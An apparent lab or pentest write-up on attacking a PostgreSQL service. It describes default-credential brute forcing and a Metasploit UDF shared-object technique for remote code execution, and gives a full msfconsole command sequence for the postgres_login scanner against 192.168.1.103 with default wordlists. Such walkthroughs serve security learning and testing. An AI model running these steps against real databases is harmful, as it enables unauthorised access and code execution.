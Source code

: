 ![](../images/service_on_port_5432.png)
Postgresql is a powerful, open source object-relation database system that uses and extends the SQL language combined with many features that safety store and scale the most complicated data workload.
It mainly used for large enterprise where we handle complex queries, large no of datatypes and reliable concurrency support for multiple user simultaneously. It is more efficient for large databases and complex queries.
### Identifying Vulnerabilites or Weakness
As we start exploring the service, using default crudentials
1. **Brute force attack using Default crudential** As this service is configured to use the default crudential that comes preconfigured with the postgres service during installation. So we can perform the brute force attack using metasploit or hydra to get the login crudential.
2. **Linux payload Execution Vulnerability** On some default Linux installations of PostgreSQL, the postgres service account may write to the /tmp directory, and may source UDF Shared Libraries from there as well, allowing execution of arbitrary code. We had a metasploit module that compiles a Linux shared object file, uploads it to the target host via the UPDATE pg_largeobject method of binary injection, and creates a UDF (user defined function) from that shared object. Because the payload is run as the shared object's constructor, it does not need to conform to specific Postgres API versions, And lets us access a remote shell.
### Exploitation
##### Bruteforce attack using Default crudential 
**Using metasploit**
```
msfconsole -q
msf > search postgres_login
msf > use auxiliary/scanner/postgres/postgres_login
msf auxiliary(scanner/postgres/postgres_login) > show options
msf auxiliary(scanner/postgres/postgres_login) > set Anonymous_login true
msf auxiliary(scanner/postgres/postgres_login) > set Blank_passwords true
msf auxiliary(scanner/postgres/postgres_login) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/postgres/postgres_login) > set User_file /usr/share/metasploit-framework/data/wordlist/postgres_defaut_user.txt
msf auxiliary(scanner/postgres/postgres_login) > set Pass_file /usr/share/metasploit-framework/data/wordlist/postgres_defaut_pass.txt
msf auxiliary(scanner/postgres/postgres_login) > run
```